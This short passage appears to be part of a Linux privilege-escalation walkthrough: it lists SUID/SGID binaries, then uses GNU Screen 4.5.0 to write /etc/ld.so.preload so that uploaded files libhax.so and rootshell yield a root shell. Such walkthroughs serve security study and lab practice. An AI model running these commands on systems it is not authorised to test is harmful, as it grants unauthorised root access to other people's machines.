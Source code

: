```bash
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/ab99952d-a793-47a9-889f-b0cc5152ad2c)

1. Upload `libhax.so` and `rootshell` to target machine in `/tmp` directory
2. Run Below Commands
```bash
cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
/tmp/rootshell
id
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/7cad8e25-8076-4a96-9a7e-88499f9df884)
